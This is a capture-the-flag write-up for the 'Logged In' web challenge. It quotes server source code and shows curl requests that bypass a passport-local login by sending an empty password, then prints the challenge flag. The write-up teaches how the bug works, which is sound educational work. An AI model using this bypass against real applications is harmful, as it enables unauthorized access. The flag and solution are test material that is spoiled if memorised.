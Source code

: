 # Web-Challenge-6: Logged In

### Description

> It looks like  COViD's mobile application is connecting to this API! Fortunately, our  agents stole part of the source code. Can you find a way to log in? 
>
> [API Server](http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41061) 
>
> *Note: Wondering what the second flag is about? Maybe check for a MOBILE Network?*

### Solution

There are 2 approaches to solving this problem, both of which utilises the same idea. Here, the solution from the web perspective is given.

First, we try to access the API Server and we get a `404 Not Found`. Since we are also given the server source code, let's dive right in. Most things are clearly irrelevant (they are just default boilerplate code generated by `express-generator`), but we notice a few interesting files:

* `seeders/20201023021100-user.js`

```js
'use strict';
const bcrypt = require('bcryptjs');

var generatePassword = require('../helpers/generatePassword');

module.exports = {
  up: async (queryInterface, Sequelize) => {
    await queryInterface.bulkInsert('Users', [{
      username: 'bob_minion',
      password: bcrypt.hashSync(generatePassword(32), 10),
      createdAt: new Date(),
      updatedAt: new Date()
    }, {
      username: 'kevin_minion',
      password: bcrypt.hashSync(generatePassword(32), 10),
      createdAt: new Date(),
      updatedAt: new Date()
    }, {
      username: 'stuart_minion',
      password: bcrypt.hashSync(generatePassword(32), 10),
      createdAt: new Date(),
      updatedAt: new Date()
    }, {
      username: 'gru_felonius',
      password: bcrypt.hashSync(generatePassword(32), 10),
      createdAt: new Date(),
      updatedAt: new Date()
    }], {});
  },

  down: async (queryInterface, Sequelize) => {
  }
};
```

* `routes/api.js`
```js
var express = require('express');
var router = express.Router();
var { loginValidator, sendValidationErrors } = require('../middlewares/validators');
var { localAuthenticator } = require('../middlewares/authenticators');
var { User } = require('../models')
var encryptFlag = require('../helpers/encryptFlag');

router.get('/', function (req, res, next) {
  res.render('index', { title: 'Express' });
});

router.post('/login', loginValidator, sendValidationErrors, localAuthenticator, function (req, res) {
  res.json({ "flagOne": process.env.FLAG_ONE, "encryptedFlagTwo": encryptFlag(process.env.FLAG_TWO) })
});

router.get('/user/:userId', async function (req, res) {
  const user = await User.findByPk(req.params.userId, { "attributes": ["username"] });
  res.json(user)
});
```

* `middleware/validators.js`

```js
var { check, validationResult } = require('express-validator');

const loginValidator = [
  check('username').exists(),
  check('password').exists()
]

function sendValidationErrors(req, res, next) {
  const errors = validationResult(req);
  if (!errors.isEmpty()) {
    return res.status(400).json({ error: `Invalid parameters: ${errors.array().map(error => error.param).join(', ')}` });
  }
  next()
}

module.exports = {
  loginValidator,
  sendValidationErrors,
}
```

* `middleware/validators.js`
```js
var passport = require('passport')

function localAuthenticator(req, res, next) {
    passport.authenticate('local', { session: false }, function (err, user, info) {
        if (err) {
            return res.status(401).json({
                "error": err.message
            });
        }
        next();
    })(req, res, next)
}

module.exports = {
    localAuthenticator,
}
```

We can gather that the endpoint is at `/api/login` (note that in `app.js` the api router is mounted on `/api`) and the expected credentials are `username` and `password`. Clearly, brute forcing the password is unfeasible (we can verify that by checking the password generation code), so we need to find a better way. Of course we can analyse the code carefully to find a vulnerability, but there's no obvious bug as of now. Instead, why don't we try to perform some quick "black-box testing" with some edge cases? Regular inputs (whatever you can type) is unlikely to cause anything weird to happen, but common edge cases include missing/null values for user inputs. Let's try a few here:

* What if we don't supply a `username` and `password`?

  ```sh
  $ curl -X POST http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41061/api/login
  {"error":"Invalid parameters: username, password"}
  ```

* What if we don't supply a `password`?

  ```sh
  $ curl -X POST -d "username=gru_felonius" http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41061/api/login
  {"error":"Invalid parameters: password"}
  ```

It seems that if a parameter is not present (`undefined`), an error will be thrown. But what if we supply a parameter with a `null` value? i.e,

* What if we don't supply a value to `password`?

  ```sh
  $ curl -X POST -d "username=gru_felonius&password" http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41061/api/login
  {"flagOne":"govtech-csg{m!sS1nG_cR3DeN+!@1s}","encryptedFlagTwo":"717f4cda287d40c47e7b50cb772b4def5a415387257510d1"}
  ```

Nice... we got the flag! But why does this work?

1. The `.check()` function (see [here](https://express-validator.github.io/docs/validation-chain-api.html#existsoptions)) only checks if a parameter exists; any value other than `undefined` is acceptable.

2. `passport-local` doesn't return an error or interrupts the program flow if it fails. You can see this in its source code [here](https://github.com/jaredhanson/passport-local/blob/f82655aa220ad7d0fcd8b114a0303d3cf94b8d06/lib/strategy.js#L71). A small section is copied here:

```js
var username = lookup(req.body, this._usernameField) || lookup(req.query, this._usernameField);
var password = lookup(req.body, this._passwordField) || lookup(req.query, this._passwordField);

if (!username || !password) {
    return this.fail({ message: options.badRequestMessage || 'Missing credentials' }, 400);
}
```

​	Since the middleware authenticator here doesn't check whether the authentication has failed and only if an error is thrown (which isn't!), missing credentials will be able to get past all the middleware applied in this case. This means that we can get even lazier: the payload `-d "username&password"` will work too!



*Addendum: the (undocumented) missing credentials behaviour can be an especially frustrating issue if one is debugging a `passport-js` application for the first time. I certainly went almost crazy trying to figure out why my local strategy didn't seem to be called when I submitted a blank form in laziness when testing an app.*

[Script](./solve.sh)

### Mobile Solution?

The mobile solution uses exactly the same idea by attempting to login from the app while stripping away either the username or the password or both, hence it is not detailed here. But for completeness sake and because it's quite interesting to have multiple ways to get the flag, we included this here.

Flag: `govtech-csg{m!sS1nG_cR3DeN+!@1s}`
